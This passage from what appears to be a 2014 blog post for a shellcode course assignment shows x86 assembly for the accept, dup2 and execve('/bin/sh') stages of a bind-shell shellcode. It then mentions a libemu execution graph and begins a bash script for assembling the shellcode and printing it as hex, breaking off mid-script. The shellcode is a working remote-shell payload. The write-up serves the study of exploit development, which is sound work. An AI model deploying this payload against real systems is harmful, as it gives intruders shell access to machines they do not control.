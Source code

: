     	;accept: sys_socketcall(int call, unsigned long *args)
    	;eax -> sys_socketcall
    	;ebx -> SYS_ACCEPT
    	;ecx -> args(sockfd, NULL, NULL)
    	mov BYTE al,0x66
    	inc ebx			;SYS_ACCEPT
    	push edx
    	push edx
    	push esi
    	mov ecx,esp
    	int 0x80
    
    	;dup2 sys_dup2(oldfd, newfd{0[stdin],1[stdout],2[stderr]})
    	xchg ebx,eax
    	push BYTE 2
    	pop ecx
    lp:	mov BYTE al,0x3f
    	int 0x80
    	dec ecx
    	jns lp			;SF=0 positive, SF=1 negative. JNS (jump-if-not-sign) will loop while SF=0. When SF is set we reach a negative value so the loop stops.		
    
    	;execve /bin/sh
    	mov BYTE al,11
    	push edx
    	push 0x68732f2f
    	push 0x6e69622f
    	mov ebx,esp
    	push edx
    	mov edx,esp
    	push ebx
    	mov ecx,esp
    	int 0x80


I also used [libemu](http://libemu.carnivore.it/) and dot to produce a graph of the execution flow of the shellcode:

[![graph_assign1]({{ site.baseurl }}/images/2014/04/graph_assign1-433x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign1.png)

After that I used the following script to assemble, link and get the shellcode in hex format.

    
    #!/bin/bash
    
    #Author:	Paolo Stivanin <https://github.com/polslinux>
    #SLAE ID:	526
    
    if [ -z "$1" ];then
    	echo "Usage: $0 filename"
    	exit -1
    fi
    
    FILE_NO_EXT="${1%.*}"
    